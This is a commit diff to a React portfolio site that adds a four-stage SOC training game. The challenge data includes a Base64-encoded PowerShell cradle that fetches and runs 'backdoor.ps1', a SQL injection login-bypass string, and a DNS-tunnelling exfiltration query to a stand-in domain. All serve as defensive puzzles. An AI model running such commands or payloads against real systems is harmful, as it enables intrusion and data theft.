

Before and after one commit to ishahzebali/portfolio, a React (Vite) app: page / in a window 1280 px wide. Shown: the part 7260-8138 px from the top of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
feat: expand interactive terminal with multi-stage Cyber Quest

```diff
--- a/src/App.jsx
+++ b/src/App.jsx
@@ -226,20 +226,78 @@ const FadeInSection = ({ children, delay = 0, direction = "up" }) => {
 
 // --- HOMEPAGE SPECIFIC COMPONENTS ---
 
+
+const CHALLENGES = [
+  {
+    id: 1,
+    title: "SOC Scenario: Suspicious Spawn",
+    scenario: "An endpoint triggered an EDR alert for an obfuscated PowerShell execution.",
+    type: "SYSMON EVENT ID: 1 - PROCESS CREATION",
+    header: "profile_executive_summary.sh",
+    obfuscatedCode: "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTcyLjE2LjEwLjUwL2JhY2tkb29yLnBzMScp",
+    objective: "De-obfuscate the payload and identify the external C2 IP Address acting as the staging server.",
+    hint: "The '-Enc' flag indicates Base64. Try decoding the payload to extract the IP!",
+    answer: "172.16.10.50",
+    badge: "MALWARE_ANALYST_AWARDED",
+    successMsg: "Excellent de-obfuscation. The staging server IP has been blacklisted on the perimeter."
+  },
+  {
+    id: 2,
+    title: "SOC Scenario: Web Intrusion",
+    scenario: "Web server logs show a series of suspicious GET requests targeting the database.",
+    type: "HTTP ACCESS LOG - 403 FORBIDDEN",
+    header: "apache_access_log.log",
+    obfuscatedCode: "192.168.1.45 - - [15/Apr/2026:14:22:01] \"GET /login?id=1' OR '1'='1'-- HTTP/1.1\" 200 542",
+    objective: "Identify the technical name for this specific injection technique used by the attacker.",
+    hint: "Look at the 'id=' parameter. It attempts to bypass authentication using logical operators.",
+    answer: "SQL Injection",
+    badge: "WEB_DEFENDER_CERTIFIED",
+    successMsg: "Correct. SQL Injection was identified. Patching parameterized queries immediately."
+  },
+  {
+    id: 3,
+    title: "SOC Scenario: Exfiltration Attempt",
+    scenario: "Network telemetry detected high-frequency DNS queries to a suspicious sub-domain.",
+    type: "DNS QUERY LOG - TUNNELING DETECTED",
+    header: "bind9_query.log",
+    obfuscatedCode: "Query: a2V5LWxvZ2dlci1kYXRh.exfiltrate.badactor.com",
+    objective: "Extract the hidden identifier by decoding the first segment of the suspicious sub-domain.",
+    hint: "The sub-domain segment 'a2V5LWxvZ2dlci1kYXRh' is encoded in Base64.",
+    answer: "key-logger-data",
+    badge: "NETWORK_FORENSIC_EXPERT",
+    successMsg: "Great catch. Data exfiltration via DNS tunneling has been blocked."
+  },
+  {
+    id: 4,
+    title: "SOC Scenario: Ransomware Attribution",
+    scenario: "A compromised workstation shows a binary signature in the memory dump.",
+    type: "PE HEADER ANALYSIS - MALWARE ID",
+    header: "volatility_memdump.raw",
+    obfuscatedCode: "[FILE_ID: 12af89] -> SIGNATURE: LOCKBIT_3_0_ZEUS_VARIANT",
+    objective: "Enter the name of the ransomware group associated with this specific file identifier.",
+    hint: "The signature explicitly mentions the name of a notorious RaaS group.",
+    answer: "LockBit",
+    badge: "THREAT_INTEL_GURU",
+    successMsg: "Attribution complete. This is LockBit 3.0. Deploying specific decryptors."
+  }
+];
+
 const InteractiveTerminal = () => {
+  const [currentIdx, setCurrentIdx] = useState(0);
   const [input, setInput] = useState('');
   const [status, setStatus] = useState('idle');
   const [showHint, setShowHint] = useState(false);
+  const [isCompleted, setIsCompleted] = useState(false);
 
-  const obfuscatedCmd = "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTcyLjE2LjEwLjUwL2JhY2tkb29yLnBzMScp";
+  const current = CHALLENGES[currentIdx];
 
-  const handleDecrypt = (e) => {
+  const handleAnswer = (e) => {
     e.preventDefault();
     if (!input) return;
 
     setStatus('checking');
     setTimeout(() => {
-      if (input.trim() === "172.16.10.50") {
+      if (input.trim().toLowerCase() === current.answer.toLowerCase()) {
         setStatus('success');
       } else {
         setStatus('error');
@@ -248,68 +306,121 @@ const InteractiveTerminal = () => {
     }, 1200);
   };
 
+  const nextChallenge = () => {
+    if (currentIdx < CHALLENGES.length - 1) {
+      setCurrentIdx(prev => prev + 1);
+      setInput('');
+      setStatus('idle');
+      setShowHint(false);
+    } else {
+      setIsCompleted(true);
+    }
+  };
+
   return (
     <TiltCard>
       <div
-        className="bg-slate-100/80 dark:bg-[#050810]/80 backdrop-blur-2xl border border-red-500/10 rounded-3xl p-8 md:p-12 shadow-[0_0_50px_rgba(0,0,0,0.5)] hover:shadow-[0_0_60px_rgba(239,68,68,0.15)] relative overflow-hidden group transition-all duration-700 h-full w-full"
+        className="bg-slate-100/80 dark:bg-[#050810]/80 backdrop-blur-2xl border border-blue-500/10 rounded-3xl p-8 md:p-12 shadow-[0_0_50px_rgba(0,0,0,0.5)] hover:shadow-[0_0_60px_rgba(59,130,246,0.15)] relative overflow-hidden group transition-all duration-700 h-full w-full"
       >
-        <div className="absolute top-0 right-0 w-64 h-64 bg-red-500/10 rounded-full blur-[80px] pointer-events-none group-hover:bg-red-500/20 transition-all duration-700"></div>
+        <div className="absolute top-0 right-0 w-64 h-64 bg-blue-500/10 rounded-full blur-[80px] pointer-events-none group-hover:bg-blue-500/20 transition-all duration-700"></div>
 
-        <div className="flex items-center gap-4 mb-8 relative z-10">
-          <motion.div
-            animate={{ rotate: [0, 5, -5, 0] }}
-            transition={{ duration: 0.5, repeat: Infinity, repeatDelay: 5 }}
-            className="p-3 bg-red-500/10 border border-red-500/30 rounded-xl"
-          >
-            <ShieldAlert className="w-6 h-6 text-red-400" />
-          </motion.div>
-          <div>
-            <h3 className="text-2xl font-bold text-slate-900 dark:text-white tracking-tight">SOC Scenario: Suspicious Spawn</h3>
-            <p className="text-slate-600 dark:text-slate-400 text-sm mt-1">An endpoint triggered an EDR alert for an obfuscated PowerShell execution.</p>
+        <div className="flex items-center justify-between mb-8 relative z-10">
+          <div className="flex items-center gap-4">
+            <motion.div
+              animate={{ rotate: status === 'success' ? [0, 360] : [0, 5, -5, 0] }}
+              transition={{ duration: status === 'success' ? 0.8 : 0.5, repeat: status === 'success' ? 0 : Infinity, repeatDelay: 5 }}
+              className={`p-3 border rounded-xl transition-colors duration-500 ${status === 'success' ? 'bg-emerald-500/10 border-emerald-500/30' : 'bg-blue-500/10 border-blue-500/30'}`}
+            >
+              {status === 'success' ? <ShieldCheck className="w-6 h-6 text-emerald-400" /> : <ShieldAlert className="w-6 h-6 text-blue-400" />}
+            </motion.div>
+            <div>
+              <h3 className="text-2xl font-bold text-slate-900 dark:text-white tracking-tight">{isCompleted ? "Cyber Quest Complete" : current.title}</h3>
+              <p className="text-slate-600 dark:text-slate-400 text-sm mt-1">{isCompleted ? "All threats neutralized. Access restored." : current.scenario}</p>
+            </div>
           </div>
+          {!isCompleted && (
+            <div className="text-[10px] font-bold tracking-widest text-slate-500 uppercase bg-slate-200/50 dark:bg-white/5 px-3 py-1.5 rounded-full border border-slate-200 dark:border-white/10 shrink-0">
+              Stage {current.id} / {CHALLENGES.length}
+            </div>
+          )}
         </div>
 
         <AnimatePresence mode="wait">
-          {status === 'success' ? (
+          {isCompleted ? (
+            <motion.div
+              key="completed"
+              initial={{ opacity: 0, y: 20 }}
+              animate={{ opacity: 1, y: 0 }}
+              className="bg-emerald-500/10 border border-emerald-500/30 rounded-2xl p-12 text-center relative z-10"
+            >
+              <motion.div
+                animate={{ scale: [1, 1.1, 1] }}
+                transition={{ repeat: Infinity, duration: 3 }}
+                className="w-20 h-20 bg-emerald-500/20 rounded-full flex items-center justify-center mx-auto mb-6 border border-emerald-500/40"
+              >
+                <Award className="w-10 h-10 text-emerald-400" />
+              </motion.div>
+              <h4 className="text-3xl font-extrabold text-emerald-700 dark:text-emerald-300 mb-4 tracking-tight">System Fully Hardened</h4>
+              <p className="text-emerald-400/80 mb-8 max-w-md mx-auto">
+                You've successfully identified and mitigated every threat in this simulation.
+                Your pattern recognition and forensic skills are elite.
+              </p>
+              <motion.button
+                whileHover={{ scale: 1.05 }}
+                whileTap={{ scale: 0.95 }}
+                onClick={() => {
+                  setCurrentIdx(0);
+                  setIsCompleted(false);
+                  setStatus('idle');
+                  setInput('');
+                }}
+                className="px-8 py-3 bg-emerald-600 hover:bg-emerald-500 text-white rounded-xl font-bold tracking-widest uppercase text-xs transition-all shadow-lg"
+              >
+                Reset Simulation
+              </motion.button>
+            </motion.div>
+          ) : status === 'success' ? (
             <motion.div
               key="success"
               initial={{ opacity: 0, scale: 0.95 }}
               animate={{ opacity: 1, scale: 1 }}
+              exit={{ opacity: 0, scale: 1.05 }}
               className="bg-emerald-500/10 border border-emerald-500/30 rounded-2xl p-8 text-center relative z-10"
             >
               <motion.div animate={{ y: [0, -10, 0] }} transition={{ repeat: Infinity, duration: 2 }}>
                 <Unlock className="w-12 h-12 text-emerald-400 mx-auto mb-4" />
               </motion.div>
               <h4 className="text-2xl font-bold text-emerald-700 dark:text-emerald-300 mb-2">Threat Neutralized</h4>
-              <p className="text-emerald-400/80 mb-6">Excellent de-obfuscation. The staging server IP has been blacklisted on the perimeter.</p>
-              <motion.div
-                initial={{ opacity: 0, y: 10 }} animate={{ opacity: 1, y: 0 }} transition={{ delay: 0.3 }}
-                className="inline-flex items-center gap-2 px-4 py-2 bg-emerald-500/20 rounded-lg border border-emerald-500/30 text-emerald-200 text-sm font-mono"
-              >
-                Badge: MALWARE_ANALYST_AWARDED
-              </motion.div>
+              <p className="text-emerald-400/80 mb-6">{current.successMsg}</p>
+              <div className="flex flex-col md:flex-row items-center justify-center gap-4">
+                <div className="inline-flex items-center gap-2 px-4 py-2 bg-emerald-500/20 rounded-lg border border-emerald-500/30 text-emerald-200 text-[10px] font-mono tracking-widest">
+                  Badge: {current.badge}
+                </div>
+                <motion.button
+                  whileHover={{ x: 5 }}
+                  onClick={nextChallenge}
+                  className="px-6 py-2.5 bg-white dark:bg-emerald-600 text-slate-900 dark:text-white rounded-lg font-bold text-xs tracking-widest uppercase flex items-center gap-2 shadow-lg"
+                >
+                  {currentIdx < CHALLENGES.length - 1 ? "Next Challenge" : "Finalize Protocol"} <ChevronRight className="w-4 h-4" />
+                </motion.button>
+              </div>
             </motion.div>
           ) : (
             <motion.div key="form" initial={{ opacity: 0 }} animate={{ opacity: 1 }} exit={{ opacity: 0 }} className="space-y-6 relative z-10">
               <div className="bg-white dark:bg-[#0A0F1C] border border-slate-200 dark:border-white/[0.05] rounded-xl p-5 font-mono text-sm text-slate-700 dark:text-slate-300 shadow-inner">
-                <div className="text-red-400 mb-3 flex items-center gap-2"><Activity className="w-4 h-4"/> [SYSMON EVENT ID: 1 - PROCESS CREATION]</div>
-                <div className="text-slate-500 mb-4 whitespace-nowrap overflow-hidden text-ellipsis">
-                  <span className="text-blue-400/80">ParentImage:</span> C:\Windows\System32\cmd.exe<br/>
-                  <span className="text-blue-400/80">Image:</span> C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe<br/>
-                  <span className="text-blue-400/80">CommandLine:</span> powershell.exe -NoP -NonI -W Hidden -Enc
-                </div>
+                <div className="text-blue-500 dark:text-blue-400 mb-3 flex items-center gap-2"><Activity className="w-4 h-4"/> [{current.type}]</div>
 
                 <div className="flex flex-col gap-2 bg-[#0A0F1C]/[0.02] dark:bg-white/[0.02] p-4 rounded-lg border border-slate-200 dark:border-white/[0.05] overflow-x-auto">
-                  <span className="text-slate-500 text-xs">Encoded Payload Segment:</span>
-                  <span className="text-violet-400 font-bold select-all tracking-wider text-xs md:text-sm">{obfuscatedCmd}</span>
+                  <span className="text-slate-500 text-xs">Analysis Snippet:</span>
+                  <span className="text-violet-400 font-bold select-all tracking-wider text-xs md:text-sm whitespace-pre-wrap">{current.obfuscatedCode}</span>
                 </div>
 
                 <div className="text-slate-700 dark:text-slate-300 mt-5 font-bold flex flex-col gap-3">
-                  <div>Objective: <span className="font-normal opacity-80">De-obfuscate the payload and identify the external C2 IP Address acting as the staging server.</span></div>
+                  <div>Objective: <span className="font-normal opacity-80">{current.objective}</span></div>
 
                   {showHint ? (
-                    <motion.div initial={{ opacity: 0, height: 0 }} animate={{ opacity: 1, height: 'auto' }} className="text-xs text-amber-400 font-mono mt-1 border-l-2 border-amber-500/50 pl-3 py-1 overflow-hidden">
-                      [System Hint]: The '-Enc' flag indicates Base64. Try using CyberChef or 'echo [payload] | base64 -d' to decode the text and extract the IP!
+                    <motion.div initial={{ opacity: 0, height: 0 }} animate={{ opacity: 1, height: 'auto' }} className="text-xs text-amber-500 font-mono mt-1 border-l-2 border-amber-500/50 pl-3 py-1 overflow-hidden">
+                      [System Hint]: {current.hint}
                     </motion.div>
                   ) : (
                     <button
@@ -323,15 +434,15 @@ const InteractiveTerminal = () => {
                 </div>
               </div>
 
-              <form onSubmit={handleDecrypt} className="flex flex-col md:flex-row gap-4">
+              <form onSubmit={handleAnswer} className="flex flex-col md:flex-row gap-4">
                 <div className="relative flex-grow">
-                  <Crosshair className="absolute left-4 top-1/2 -translate-y-1/2 w-5 h-5 text-slate-500" />
+                  <TerminalSquare className="absolute left-4 top-1/2 -translate-y-1/2 w-5 h-5 text-slate-500" />
                   <input
                     type="text"
                     value={input}
                     onChange={(e) => setInput(e.target.value)}
-                    placeholder="Enter the extracted Malicious IP (e.g. x.x.x.x)..."
-                    className="w-full bg-[#0A0F1C]/[0.02] dark:bg-white/[0.03] border border-slate-300 dark:border-white/[0.1] focus:border-red-500/50 rounded-xl py-3.5 pl-12 pr-4 text-slate-900 dark:text-white font-mono text-sm outline-none transition-all placeholder:text-slate-600 focus:bg-[#0A0F1C]/[0.02] dark:bg-white/[0.05] shadow-inner"
+                    placeholder="Enter identifying string..."
+                    className="w-full bg-[#0A0F1C]/[0.02] dark:bg-white/[0.03] border border-slate-300 dark:border-white/[0.1] focus:border-blue-500/50 rounded-xl py-3.5 pl-12 pr-4 text-slate-900 dark:text-white font-mono text-sm outline-none transition-all placeholder:text-slate-600 focus:bg-[#0A0F1C]/[0.02] dark:bg-white/[0.05] shadow-inner"
                     disabled={status === 'checking'}
                   />
                 </div>
@@ -344,16 +455,16 @@ const InteractiveTerminal = () => {
                       ? 'bg-blue-500/20 text-blue-600 dark:text-blue-300 border border-blue-500/30 cursor-wait'
                       : status === 'error'
                       ? 'bg-red-500/20 text-red-300 border border-red-500/30'
-                      : 'bg-red-600 hover:bg-red-500 text-slate-900 dark:text-white shadow-[0_0_20px_rgba(220,38,38,0.4)] hover:shadow-[0_0_30px_rgba(239,68,68,0.6)] relative overflow-hidden group/btn'
+                      : 'bg-blue-600 hover:bg-blue-500 text-white shadow-[0_0_20px_rgba(37,99,235,0.4)] hover:shadow-[0_0_30px_rgba(59,130,246,0.6)] relative overflow-hidden group/btn'
                   }`}
                 >
                   <div className="absolute inset-0 bg-gradient-to-r from-transparent via-white/[0.2] to-transparent -translate-x-full group-hover/btn:animate-[shimmer_1.5s_infinite]"></div>
                   {status === 'checking' ? (
                     <><Activity className="w-4 h-4 animate-spin" /> Analyzing...</>
                   ) : status === 'error' ? (
-                    <><motion.div animate={{ x: [-5, 5, -5, 5, 0] }} transition={{ duration: 0.4 }}><XCircle className="w-4 h-4" /></motion.div> IP Not Found</>
+                    <><motion.div animate={{ x: [-5, 5, -5, 5, 0] }} transition={{ duration: 0.4 }}><XCircle className="w-4 h-4" /></motion.div> Failed</>
                   ) : (
-                    <><CheckCircle2 className="w-4 h-4 relative z-10" /> <span className="relative z-10">Submit IOC</span></>
+                    <><CheckCircle2 className="w-4 h-4 relative z-10" /> <span className="relative z-10">Submit SOC Intel</span></>
                   )}
                 </motion.button>
               </form>
@@ -364,6 +475,7 @@ const InteractiveTerminal = () => {
     </TiltCard>
   );
 };
+
 
 const SectionHeading = ({ title, icon: Icon }) => (
   <div className="flex items-center gap-4 mb-16 group">
```
